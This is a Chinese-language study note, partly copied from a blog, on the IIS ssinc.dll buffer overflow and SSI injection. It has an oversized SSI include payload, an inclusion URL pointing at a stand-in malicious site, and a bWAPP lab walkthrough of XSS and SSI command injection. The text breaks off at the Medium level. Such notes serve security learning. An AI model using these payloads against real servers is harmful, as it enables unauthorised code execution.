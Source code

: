 Since.dll缓冲区溢出漏洞

在IIS的4.0和5.0版本中，攻击者可以通过动态链接库（ssinc.dll）中的缓冲区溢出故障来获取系统特权。ssinc.dll是用于解释服务器端包含文件的程序。

通过创建包含以下SSI代码的恶意页面并强制Web应用加载该页面（ 路径遍历攻击），可以执行以下攻击：

ssi_over.shtml：

```
<!--#include file="UUUUUUUU...UU"-->
```

注意，字符U的数量必须大于2049。

强制Web应用加载ssi_over.shtml页面：

正常网站：`www.vulnerablesite.org/index.asp?page=news.asp`

恶意网站：`www.vulnerablesite.org/index.asp?page=www.malicioussite.com/ssi_over.shtml`

如果IIS返回空白页，则表明发生了溢出。在这种情况下，攻击者可能会操纵过程流并执行任意代码。

> 怎么操纵过程流并rce？

**下面的demo是直接复制别人博客的，可以忽略，这里只是记录一下**

### demo

（BWAPP的SSI注入漏洞环境

页面是个表单，然后提交来查询你的IP地址：

![img](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/1.png)

随便输入些内容点击Lookup，跳转至新的页面：

![img](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/2.png)

可看到该页面是shtml页面，并且用户输入的表单信息直接输出在该页面上。

当然，我们输入XSS payload，就会弹框了，后台没有进行任何过滤：

![img](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/3.png)

![img](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/4.png)

这就满足前面所说的场景了，该页面是SHTML文件，且存在反射型XSS，同时我们可以推测服务端是开启SSI的（因为对IP地址进行了查询操作并输出在页面上），那么该页面时大概率存在SSI注入漏洞的。

下面来验证一下，直接输入执行系统命令的SSI标签：

![img](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/5.png)

![img](https://www.mi1k7ea.com/2019/09/28/SSI%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/6.png)

据此，我们就可以知道，下面显示lookup结果的IP地址的SSI标签为``。

- Medium级

该级别下XSS不能通过引号来将字符串括起来再弹框输出，因为后台程序在引号前添加了反斜杠进行了转义：

